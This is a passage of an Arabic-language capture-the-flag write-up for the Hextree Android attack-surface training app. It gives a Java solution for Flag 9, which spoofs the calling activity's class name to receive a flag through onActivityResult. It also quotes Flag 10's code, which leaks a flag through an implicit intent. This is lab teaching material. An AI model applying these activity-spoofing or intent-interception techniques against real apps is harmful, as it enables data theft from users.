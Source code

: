 الـ Activity دي بتجيب معلومات عن الـ activity اللي شغاله باستخدام `getCallingActivity()`. ده بيرجع `ComponentName` object يحدد هوية الـ calling activity.

- بعدين بيشيك لو الـ activity الحالي اتشغل من activity تاني باستخدام `startActivityForResult()` _(calling activity)_
- بعدين بيشيك لو اسم class الخاص بالـ calling activity فيه string "Hextree"

الفرق الوحيد بين ده والـ `Flag 8` هو  هنطبق `onActivityResult()`

#### الحل

```java
public class Hextree extends AppCompatActivity {  
    @Override  
    protected void onCreate(Bundle savedInstanceState) {  
        super.onCreate(savedInstanceState);  
        EdgeToEdge.enable(this);  
        setContentView(R.layout.activity_hextree);  
  
        Intent intent = new Intent();  
        intent.setComponent(new ComponentName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag9Activity"));  
        startActivityForResult(intent,42);  
        
        ViewCompat.setOnApplyWindowInsetsListener(findViewById(R.id.main), (v, insets) -> {  
            Insets systemBars = insets.getInsets(WindowInsetsCompat.Type.systemBars());  
            v.setPadding(systemBars.left, systemBars.top, systemBars.right, systemBars.bottom);  
            return insets;  
        });  
    }  
  
    @Override  
    protected void onActivityResult(int requestCode, int resultCode, @Nullable Intent data) {  
        super.onActivityResult(requestCode, resultCode, data);  
        if (requestCode == 42) {  
            Utils.showDialog(this, data);  
        }  
    }  
}
```

### Flag 10

#### تحليل الكود

```java
if (getIntent().getAction() == null) {
            Toast.makeText(this, "Sending implicit intent with the flag\nio.hextree.attacksurface.ATTACK_ME", 1).show();
            Intent intent = new Intent("io.hextree.attacksurface.ATTACK_ME");
            intent.addFlags(8);
            this.f.addTag(intent);
            intent.putExtra("flag", this.f.appendLog(this.flag));
            try {
                startActivity(intent);
                success(this);
            } catch (RuntimeException e) {
                e.printStackTrace();
                Toast.makeText(this, "No app found to handle the intent\nio.hextree.attacksurface.ATTACK_ME", 1).show();
                finish();
            }
        }
```
